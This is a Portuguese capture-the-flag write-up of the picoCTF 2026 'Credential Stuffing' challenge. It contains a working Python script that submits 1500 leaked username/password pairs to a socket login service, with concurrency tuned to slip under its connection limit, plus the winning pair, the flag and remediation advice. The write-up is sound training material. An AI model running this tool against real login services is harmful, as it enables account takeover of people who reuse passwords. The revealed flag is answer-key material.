

# Credential Stuffing | picoCTF 2026 (CyLab Academy)

`web` `credential-stuffing` `automation` `sockets` `threads`

| | |
|---|---|
| **Plataforma / evento** | picoCTF 2026 |
| **Plataforma (hoje)** | CyLab Academy (`cylabacademy.net`) |
| **Categoria** | Web Exploitation |
| **Dificuldade / pontos** | Medium |
| **Autor do desafio** | David Gaviria |
| **Resolvido / revalidado em** | 2026-11-02 |

## TL;DR

O desafio dá um dump de 1500 pares `usuario;senha` vazados e um serviço de login por socket. Automatizo o envio de cada par ao serviço e procuro uma resposta sem `Invalid` (login aceito). Um dos pares do dump foi reusado no banco e devolve a flag.

> [!IMPORTANT]
> **Ideia-chave:** credential stuffing explora **reúso de senha**. Credenciais vazadas em um lugar funcionam em outro quando a pessoa repete a mesma senha. O ataque é só automação: testar o dump inteiro contra o alvo.

> [!WARNING]
> O par válido **e o sufixo da flag mudam a cada instância** (o serviço sorteia qual credencial do dump é válida). Na minha validação de 2026-11-02 o par vencedor foi `ehi:smack`; na sua pode ser outro. O dump (os 1500 usuários) é o mesmo, o método não muda.

## Enunciado

> Credential stuffing is the automated injection of stolen username and password pairs ("credentials") in to website login forms, in order to fraudulently gain access to user accounts. (...) submitting those sets of stolen credentials into dozens or hundreds of other sites can allow an attacker to compromise those accounts too. Download the credentials dump here.

**Arquivos:** [`files/creds-dump.txt`](files/creds-dump.txt), 1500 pares `usuario;senha`. **Instância:** serviço de login por socket (host e porta gerados pela plataforma).

## Dicas progressivas

<details><summary>Dica 1</summary>O serviço pede <code>Username:</code> e <code>Password:</code> em sequência. Dá para scriptar.</details>
<details><summary>Dica 2</summary>Teste cada par do dump; a resposta de sucesso contém a flag (as inválidas dizem <code>Invalid</code>).</details>
<details><summary>Dica 3</summary>São 1500 tentativas, mas o serviço só aceita <b>3-4 conexões simultâneas</b>: com mais workers que isso, todas as conexões são recusadas. Use concorrência baixa.</details>

## Ambiente

- **Máquina atacante:** Kali Linux, com `python3` (só a stdlib, `socket` + `concurrent.futures`).
- **Arquivo:** `files/creds-dump.txt` na raiz da pasta do desafio.

Na minha instância o serviço estava em `xebec.cylabacademy.net:10001`. Use o da sua.

***INSERIR no terminal: Kali (atacante)

```bash
export TARGET_HOST=xebec.cylabacademy.net TARGET_PORT=10001
```

## Resolução

### 1. Entendendo o protocolo do serviço

Conectando manualmente, o serviço é um banco online que pede `Username:` e, em seguida, `Password:`. Com credenciais válidas responde `Welcome <user>!` e imprime a flag; com inválidas, responde `Invalid username or password` e **fecha a conexão** (uma tentativa por conexão). O formato do dump é `usuario;senha`, uma por linha.

***INSERIR no terminal: Kali (atacante)

```bash
nc $TARGET_HOST $TARGET_PORT
```

```text
Welcome to the Online Banking Service!
Please enter your username & password to login.
Username: foo
Password: bar

Invalid username or password
```

> [!TIP]
> **Conceito: credential stuffing.** Diferente de brute force (que adivinha senhas), aqui testamos pares reais vazados, apostando que a vítima reusou a mesma senha neste serviço. A taxa de sucesso é baixa por par, mas alta no agregado quando há reúso. Referência: [OWASP: Credential Stuffing](https://owasp.org/www-community/attacks/Credential_stuffing).

### 2. Calibrando a concorrência

São 1500 pares. A primeira ideia é paralelizar bastante, mas **isso não funciona aqui**:

> **Isso não funcionou (pule ao replicar):** com 25-30 workers, **todas** as conexões voltam com erro (`err=200/200` num lote de teste), o serviço recusa conexões simultâneas em excesso.

Medindo em lotes pequenos, o serviço tolera **3-4 conexões ao mesmo tempo**. Com `WORKERS=4` e mandando usuário e senha na mesma escrita (o serviço lê as duas linhas em sequência, então não preciso esperar cada prompt), a vazão fica em ~12 pares/s e as respostas voltam limpas (`Invalid` nas erradas). O dump inteiro roda em ~1-2 min.

### 3. Automatizando o teste do dump

O [`scripts/script1.py`](scripts/script1.py) abre uma conexão por par (4 em paralelo), manda `usuario\nsenha\n` e para na primeira resposta sem `Invalid`.

```python
#!/usr/bin/env python3
# Credential stuffing contra o serviço de login por socket.
#
# Calibração importante: o serviço aceita só ~3-4 conexões simultâneas; com mais
# que isso TODAS as conexões são recusadas (erro). Por isso WORKERS=4. Também
# mando usuário e senha na mesma escrita (o serviço lê duas linhas em sequência),
# cortando round-trips. Para na primeira resposta que NÃO contém "Invalid".
#
# Uso: TARGET_HOST=host TARGET_PORT=porta python3 scripts/script1.py

import socket, os
from concurrent.futures import ThreadPoolExecutor, as_completed

HOST = os.environ.get("TARGET_HOST", "xebec.cylabacademy.net")
PORT = int(os.environ.get("TARGET_PORT", "10001"))
CREDS_FILE = "files/creds-dump.txt"
WORKERS = 4  # o serviço recusa conexões com concorrência alta

FOUND = {}

def try_login(up):
    if FOUND:
        return None
    u, p = up
    try:
        s = socket.create_connection((HOST, PORT), timeout=8)
        s.settimeout(6)
        s.sendall(u.encode() + b"\n" + p.encode() + b"\n")  # Username + Password juntos
        data = b""
        for _ in range(10):
            d = s.recv(4096)
            if not d:
                break
            data += d
            if b"}" in data or b"Invalid" in data:
                break
        s.close()
        r = data.decode(errors="replace")
        if "Invalid" not in r and r.strip():
            return (u, p, r)
    except Exception:
        return None
    return None

def main():
    creds = []
    with open(CREDS_FILE, encoding="utf-8", errors="replace") as f:
        for line in f:
            line = line.strip()
            if line and ";" in line:
                u, p = line.split(";", 1)  # senha pode conter ';'
                creds.append((u, p))
    print(f"[*] {len(creds)} credenciais, {WORKERS} workers, alvo {HOST}:{PORT}")
    with ThreadPoolExecutor(max_workers=WORKERS) as ex:
        futs = {ex.submit(try_login, up): up for up in creds}
        for fut in as_completed(futs):
            r = fut.result()
            if r:
                FOUND["hit"] = r
                print(f"\n[+] par válido: {r[0]}:{r[1]}")
                print(r[2])
                return
    print("[-] nenhum par válido encontrado (dump não corresponde a esta instância?)")

if __name__ == "__main__":
    main()
```

***INSERIR no terminal: Kali (atacante)

```bash
python3 scripts/script1.py
```

```text
[*] 1500 credenciais, 4 workers, alvo xebec.cylabacademy.net:10001

[+] par válido: ehi:smack
Welcome to the Online Banking Service!
Username: Password:
Authenticating...
Welcome ehi!
academy{d0nt_r3u5e_cr3d3nt1als_8fcXXXXX}
```

## Cadeia de ataque



## Por que funciona

O serviço aceita login por um par válido qualquer do banco. Como o dump contém uma credencial que **existe** nesse banco (reúso de senha), basta encontrá-la testando todos. Não há MFA nem CAPTCHA; a única defesa é o limite de conexões simultâneas, que só atrasa o ataque (resolvido baixando a concorrência). A própria flag (`d0nt_r3u5e_cr3d3nt1als`) é a lição.

## Remediação

- Rate limiting e bloqueio progressivo por IP/conta após tentativas falhas (o limite de conexões aqui era fraco demais, só exigiu baixar workers).
- MFA, que quebra o ataque mesmo com a senha correta.
- Monitorar e barrar logins automatizados (device fingerprinting, CAPTCHA em comportamento suspeito).
- Do lado do usuário: senhas únicas por serviço e gerenciador de senhas.

## Lições e padrões

- **Sinais para reconhecer:** sempre que um desafio entrega uma lista de credenciais e um login, é credential stuffing, o trabalho é de automação e estabilidade, não de técnica.
- **Da próxima vez eu tentaria primeiro:** calibrar a concorrência num lote pequeno antes de disparar as 1500, aqui 30 workers davam 100% de erro e 4 workers resolviam.
- **Onde perdi tempo:** assumir que mais workers = mais rápido. O gargalo era o limite de conexões do serviço, não a minha máquina.

## Referências

- [OWASP: Credential Stuffing](https://owasp.org/www-community/attacks/Credential_stuffing)
- [Python: `socket` / `concurrent.futures`](https://docs.python.org/3/library/concurrent.futures.html)

## Flag

```text
academy{d0nt_r3u5e_cr3d3nt1als_8fcXXXXX}
```
